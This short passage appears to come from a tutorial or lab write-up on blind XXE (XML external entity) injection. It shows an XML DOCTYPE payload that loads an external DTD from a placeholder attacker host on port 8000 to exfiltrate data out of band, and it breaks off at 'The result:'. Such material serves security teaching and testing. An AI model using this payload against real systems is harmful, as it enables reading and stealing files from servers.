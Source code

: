 Now in the request:

```
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://$IPAttacker$:8000/blind.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

![](../img/xxe_26.png)

The result:
